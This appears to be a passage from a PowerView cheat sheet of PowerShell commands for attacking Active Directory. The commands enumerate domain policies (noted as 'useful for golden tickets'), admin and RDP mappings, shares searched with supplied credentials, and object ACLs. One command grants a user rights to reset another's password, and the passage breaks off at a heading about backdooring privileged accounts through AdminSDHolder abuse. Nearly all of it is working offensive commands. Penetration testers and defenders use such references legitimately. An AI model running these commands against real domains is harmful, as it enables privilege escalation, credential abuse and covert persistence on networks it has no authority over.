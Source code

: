 * Enumerate the current domain controller policy

```
$DCPolicy = Get-DomainPolicy -Policy DC
$DCPolicy.PrivilegeRights # user privilege rights on the dc...
```

* Enumerate the current domain policy

```
$DomainPolicy = Get-DomainPolicy -Policy Domain
$DomainPolicy.KerberosPolicy # useful for golden tickets ;)
$DomainPolicy.SystemAccess # password age/etc.
```

* Enumerate what machines that a particular user/group identity has local admin rights to
* Get-DomainGPOUserLocalGroupMapping == old Find-GPOLocation

```
Get-DomainGPOUserLocalGroupMapping -Identity <User/Group>
```

* Enumerate what machines that a given user in the specified domain has RDP access rights to

```
Get-DomainGPOUserLocalGroupMapping -Identity <USER> -Domain <DOMAIN> -LocalGroup RDP
```

* Export a csv of all GPO mappings

```
Get-DomainGPOUserLocalGroupMapping | %{$_.computers = $_.computers -join ", "; $_} | Export-CSV -NoTypeInformation gpo_map.csv
```

* Use alternate credentials for searching for files on the domain
* Find-InterestingDomainShareFile == old Invoke-FileFinder

```
$Password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential("DOMAIN\user",$Password)
Find-InterestingDomainShareFile -Domain DOMAIN -Credential $Credential
```

* Enumerate who has rights to the 'matt' user in 'testlab.local', resolving rights GUIDs to names

```
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain testlab.local
```

* Grant user 'will' the rights to change 'matt's password

```
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```

* Audit the permissions of AdminSDHolder, resolving GUIDs

```
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -ResolveGUIDs
```

* Backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
